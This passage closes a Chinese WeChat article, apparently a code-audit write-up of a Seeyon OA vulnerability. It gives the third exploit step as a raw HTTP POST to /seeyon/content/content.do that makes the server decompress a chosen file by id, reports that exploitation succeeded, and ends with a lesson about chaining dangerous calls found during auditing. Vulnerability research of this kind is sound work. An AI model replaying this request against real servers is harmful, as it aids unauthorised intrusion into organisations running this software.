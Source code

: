   

第三步，通过接口去解压指定 id 对应的文件

    
    
    POST /seeyon/content/content.do HTTP/1.1  
    Host: 192.168.77.5  
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36 uacq  
    Cookie: JSESSIONID=EB4A0560A238FF48DF116C3364FD0F5A  
    If-Modified-Since: Sun, 07 Aug 2022 00:34:17 GMT  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 69  
    Connection: close  
      
    method=invokingForm&isNew=true&subApp=2&ofdFileId=1068313048246797259  
    

![]()

  

利用成功

![]()  

  

### 0x04 结语

  1. 审计代码时，危险函数调用可以通过数据库查询与另一个接口连接上，寻找一些较隐蔽的漏洞，我学到了。

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

